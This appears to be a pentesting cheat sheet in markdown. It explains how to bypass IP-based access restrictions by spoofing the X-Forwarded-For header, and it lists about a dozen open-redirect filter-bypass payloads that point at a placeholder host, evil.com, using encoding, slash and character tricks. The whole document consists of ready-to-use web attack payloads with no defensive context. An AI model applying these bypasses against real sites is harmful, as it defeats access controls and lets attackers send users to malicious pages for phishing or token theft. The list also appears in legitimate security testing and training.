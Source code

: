 # IP RESTRICTION BYPASS
For IP restriction bypass use "X-Forwarded-For" http header with value of needed ip address<br>
IP address spaces reserved for private networks<br>
10.0.0.0        -   10.255.255.255  (10/8 prefix)<br>
172.16.0.0      -   172.31.255.255  (172.16/12 prefix)<br>
192.168.0.0     -   192.168.255.255 (192.168/16 prefix)<br>
# OPEN REDIRECT
Simply try to change the domain
Example: ?redirect=https://example.com --> ?redirect=https://evil.com
Bypass the filter when protocol is blacklisted using //
Example: ?redirect=https://example.com --> ?redirect=//evil.com
Bypass the filter when double slash is blacklisted using \\
Example: ?redirect=https://example.com --> ?redirect=\evil.com
Bypass the filter when double slash is blacklisted using http: or https:
Example: ?redirect=https://example.com --> ?redirect=https:example.com
Bypass the filter using %40
Example: ?redirect=example.com --> ?redirect=example.com%40evil.com
Bypass the filter if it only checks for domain name
Example: ?redirect=example.com --> ?redirect=example.comevil.com
Bypass the filter if it only checks for domain name using a dot %2e
Example: ?redirect=example.com --> ?redirect=example.com%2eevil.com
Bypass the filter if it only checks for domain name using a query/question mark ?
Example: ?redirect=example.com --> ?redirect=evil.com?example.com
Bypass the filter if it only checks for domain name using a hash %23
Example: ?redirect=example.com --> ?redirect=evil.com%23example.com
Bypass the filter using a ° symbol
Example: ?redirect=example.com --> ?redirect=example.com/°evil.com
Bypass the filter using a url encoded Chinese dot %E3%80%82
Example: ?redirect=example.com --> ?redirect=evil.com%E3%80%82%23example.com
Bypass the filter if it only allows you to control the path using a nullbyte %0d or %0a
Example: ?redirect=/ --> ?redirect=/%0d/evil.com
